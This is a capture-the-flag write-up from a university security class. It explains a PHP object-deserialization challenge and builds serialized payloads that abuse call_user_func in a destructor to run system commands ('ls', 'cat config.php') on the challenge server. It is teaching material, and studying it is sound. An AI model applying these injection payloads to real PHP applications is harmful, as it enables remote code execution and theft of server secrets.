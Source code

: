 ![](images/cover.png)

## Decription
This is our task from teacher at NT521.ANTT pratical class (Nghi Hoang Khoa) ^^. My team called by **54010N** and you can see us in [CTF Time](https://ctftime.org/team/143012)
As teacher say, our work is find out flag of challenge by exploiting the PHP serialize/deserialize vulnerability.

## The challenge
Link: *http://45.122.249.68:10001*
If you're lazy, you can see the quick code [here](chall.php)

## Analytics
By reading and following the code, we analysed the code and proposed a few judgments (*for convenient in handling, we get the code back local and handle on it*):

**Source code overview**
If `isset($_GET['code']` not null, the site will unserialize the code input which we can put it into the site to request.
The code input is a object type. We have to serialize the code to right format and request to server. **(1)**

**About *class User***
```php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name; //???something went wrong here!!!
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
```
We realize that at the line 5, author uses`$this->$name = $name;` instead of `$this->$name = $name;`.

By *our test below*, we see that the output will add a "54010N" property into User object with the value as same as property's name.

[](images/usertest.png)

Moreover, the `$name` and `$is_admin` properties are changed to `Username` and `Useris_admin` ?? :smile: ??.  *What is special when author make that?* **(2)**

**About *class Show_color***
I put the code of User class here so that you can follow easily:
```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

You can see that this class have the `call_user_func()` which have the feature like callback function [(call the callback function)](https://www.php.net/manual/en/function.call-user-func.php). So, here is probably the key of the challege ^^. We can use it to call any the function in program :3.

In line `call_user_func($this->type->adu,$this->color);`, the first parameter will call `$this->type->adu` but *where is `adu` property?*

**About *class do_nothing***
As the class name, it's not relate to something in this challenge.

## Solution

After trying many ways, we was finally find out the way to capture the flag. Let's us begin with step by step!

Remember to the previous section, in User class, *construc()* function use `$this->$name = $name;` instead of `$this->name = $name;` and we had a question in there. At here, everything seemed to mutual matching. We can use `call_user_func()` to force User's class construct a new user object and add a `adu` property into it. And with this way, we will try to use `system("ls")` command to explore some files which is archived on server through `call_user_func()`.

First, we will generate a **adu** user and serialize it to object format.

```php
$user = new User("adu"); //create new user "adu"
$code = serialize($user); //serialize to object format
echo $code;
```
> Output: `O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}`

Next, we try to call `call_user_func()` through *Show_color* class to call *"ls"* command.
```php
$user = new User("adu"); //Create new user "adu"
$showcolor = new Show_color($user, 'ls');
$code = serialize($showcolor);
echo $code;
```
> Output: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}}`

Using this output as payload:

![](images/wrong.png)

The *ls* command is not execute and the server return a error. So we need to repair the payload.
- As mention in **(1)**, `name` and `is_admin` in User's class were added the string *"User"* to head so we need to remove it before request to server.
- We have to change the `is_admin` from `false` to `true` by change the *"is_admin";b:0;"* as *"is_admin";b:1;"* so that we can become a importor as admin.
- Specialy, the server is not compile `system("ls")` command because the `adu` property have *adu* value rather than *system* value. So, the system will be compile *adu("ls")* instead of *system("ls")*. That is the reason why we must to change the value of `adu` property to *"system"*.

Now, let's request by the changed payload: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`:

![](images/rightway.png)

Yeah, we are success when execute `system("ls")` on the server. Now our work is checking files and find out the flag because the string *"hi admin, here is your flag"* is not the flag :(((
> Payload: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`

*Ctrl + U* is shortcut key to view source and it's the way that we captured the flag :3
![](images/flag.png)

**Note:**
- *When we changed the payload, the important thing that we need to remember is changing the length of property*
- The final source code here [code.php](code.php)

## Flag
> **flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**

